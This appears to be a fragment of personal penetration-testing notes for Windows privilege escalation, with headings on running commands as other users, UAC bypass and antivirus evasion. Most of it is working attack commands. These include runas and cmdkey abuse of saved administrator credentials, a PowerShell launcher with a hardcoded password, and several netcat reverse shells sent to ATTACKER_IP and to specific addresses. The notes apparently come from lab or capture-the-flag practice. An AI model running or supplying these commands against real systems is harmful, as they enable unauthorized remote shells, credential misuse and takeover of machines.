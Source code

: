 ```


--- modify the file and and get the reverse shell or make user admin
```

##  Run commands as different users

-	runas /netonly /user:ZA\t1_leonard.summers cmd.exe

-   runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"

``` run command as different user
$secpasswd = ConvertTo-SecureString "password321" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("john", $secpasswd)
$computer = "GHOST"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","192.168.0.114 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

>   cmdkey /list
-   runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"
-   runas /savecred /user:admin cmd.exe
-   c:\windows\system32\runas.exe /user:ACCESS\Administrator  /savecred "C:\windows\system32\cmd.exe /c TYPE c:\users\administrator\desktop\root.txt > c:\users\security\root.txt"

[+]	cmdkey /list
	[-]	net user username	[to check if password is required for the user]
	[-]	runas /savecred /noprofile /user:ACCESS\USERNAME met.exe	[running commands behalf on the user]
	[-]	runas /env /profile /user:ACCESS\USERNAME met.exe



[+]	C:\Users\viewer>runas /env /profile /user:Administrator "C:\Users\viewer\nc.exe -e cmd.exe 192.168.49.54 80"          
Enter the password for Administrator:

[+]	Need RDP access

c:\Users\ted\Desktop>powershell.exe Start-Process "cmd.exe" -Verb runAs





##	Check Patch History


##  UAC bypass
>   fodhelper
	-	
>   sigcheck.exe


##  Antivirus Evasion
>   Shelter
